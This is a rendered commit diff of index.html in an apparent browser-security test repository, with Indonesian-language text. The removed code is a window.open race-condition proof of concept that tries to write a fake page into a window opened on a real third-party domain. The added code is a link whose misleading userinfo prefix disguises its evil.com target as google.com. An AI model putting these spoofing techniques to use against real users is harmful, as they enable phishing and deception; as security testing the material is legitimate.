

Before and after one commit to killukeren/window-opener-attacker, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,41 +2,13 @@
 <html lang="id">
 <head>
   <meta charset="UTF-8">
-  <title>PoC - Window Opener Race Condition Test</title>
+  <title>WebView Spoof Test</title>
 </head>
 <body>
-  <h2>Test: Pending URL / Navigation Race</h2>
-  <p>Buka Console (F12) sebelum klik, lalu tunggu hasilnya.</p>
-
-  <button onclick="spoofFast()">Test Delay 1ms (cepat)</button>
-  <button onclick="spoofSlow()">Test Delay 5000ms (lambat)</button>
-
-  <script>
-    function spoofFast() {
-      var win = window.open('https://faizdevs.my.id');
-      setTimeout(function() {
-        try {
-          win.document.write('<h1>Halaman palsu tampil (delay 1ms)</h1>');
-          win.document.close();
-          console.log('[1ms] BERHASIL nulis — berarti belum commit ke faizdevs.my.id');
-        } catch(e) {
-          console.log('[1ms] DIBLOKIR:', e.message, '— sudah commit, cross-origin protection aktif');
-        }
-      }, 1);
-    }
-
-    function spoofSlow() {
-      var win = window.open('https://faizdevs.my.id');
-      setTimeout(function() {
-        try {
-          win.document.write('<h1>Halaman palsu tampil (delay 5000ms)</h1>');
-          win.document.close();
-          console.log('[5000ms] BERHASIL nulis — berarti masih belum commit ke faizdevs.my.id');
-        } catch(e) {
-          console.log('[5000ms] DIBLOKIR:', e.message, '— sudah commit, cross-origin protection aktif');
-        }
-      }, 5000);
-    }
-  </script>
+  <h2>Test URL Display di In-App Browser</h2>
+  <p>Link ini sengaja pakai userinfo panjang untuk test truncation.</p>
+  <a href="https://google.com.google.com.google.com@evil.com">
+    Klik link ini dari dalam app (bukan browser biasa)
+  </a>
 </body>
 </html>
```
